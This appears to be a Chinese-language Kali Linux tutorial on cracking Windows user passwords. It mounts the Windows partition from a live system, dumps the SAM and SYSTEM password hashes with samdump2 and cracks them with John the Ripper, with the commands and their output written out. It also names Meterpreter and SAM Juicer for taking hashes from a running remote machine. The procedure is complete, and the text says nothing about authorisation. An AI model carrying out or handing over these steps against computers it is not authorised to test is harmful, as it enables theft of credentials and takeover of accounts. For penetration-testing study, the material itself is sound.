 #破解Windows用户密码

Windows系统的用户名和密码保存在SAM（安全账号管理器）文件中。在基于NT内核的Windows系统中，
包括Windows 2000及后续版本，这个文件保存在“C:\Windows\System32\Config”目录下。
出于安全原因，微软特定添加了一些额外的安全措施将该文件保护了起来。
首先，操作系统启动之后，SAM文件将同时被锁定。这意味着操作系统运行之时，
用户无法打开或复制SAM文件。除了锁定，整个SAM文件还经过加密，且不可见。

幸运的是，现在有办法绕过这些限制。在远程计算机上，只要目标处于运行状态，
就可以利用Meterpreter和SAM Juicer获取计算机上的散列文件。
获得访问系统的物理权限之后，用户就可以在其上启动其他的操作系统，
如在USB或DVD-ROM设备上的Kali Linux。启动目标计算机进入到其他的操作系统之后，
用户可以使用Kali中的John the Ripper工具来破解该Windows用户密码。

使用John the Ripper工具破解Windows用户密码。具体操作步骤如下所示。

（1）检查当前系统中的硬盘驱动。执行命令如下所示：
```shell script
fdisk -l
```
输出的信息表示当前系统中有一块磁盘，并只有一个分区。该文件系统类型是NTFS，也是Windows系统的所存放的磁盘。

（2）挂载硬盘驱动。执行命令如下所示：
```shell script
mkdir /sda1     #创建挂载点
mount /dev/sda1 /sda1/   #挂载/dev/sda1分区，到刚创建的挂载点下
```
执行以上命令后，没有任何输出信息。

（3）切换目录，进入到Windows SAM文件的位置。执行命令如下所示：
```shell script
cd /sda1/WINDOWS/system32/config/
```
在该目录中，可以看到SAM文件。

（4）使用SamDump2提取SAM文件。执行命令如下所示：
```shell script
[root@kali]:/sda1/WINDOWS/system32/config# samdump2 SAM system > /root/hash.txt 

samdump2 1.1.1 by Objectif Securite
http://www.objectif-securite.ch
original author: [root@kali]
Root Key : SAM
```
从输出信息中可以看到提取了SAM文件。将该文件的内容重定向到了/root/hash.txt文件中。

（5）运行john命令，实现密码攻击。执行命令如下所示：
```shell script
[root@kali]:/sda1/WINDOWS/system32/config# /usr/sbin/john /root/hash.txt --format=nt

Created directory: /root/.john
Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
   (Guest)
guesses: 4 time: 0:00:03:13 0.09% (3) (ETA: Mon May 12 06:46:42 2014) c/s: 152605K trying: 2KRIN.P - 2KRIDY8
guesses: 4 time: 0:00:04:26 0.13% (3) (ETA: Mon May 12 04:02:53 2014) c/s: 152912K trying: GR0KUHI - GR0KDN1
guesses: 4 time: 0:00:04:27 0.13% (3) (ETA: Mon May 12 04:15:42 2014) c/s: 152924K trying: HKCUUHT - HKCUGDS
```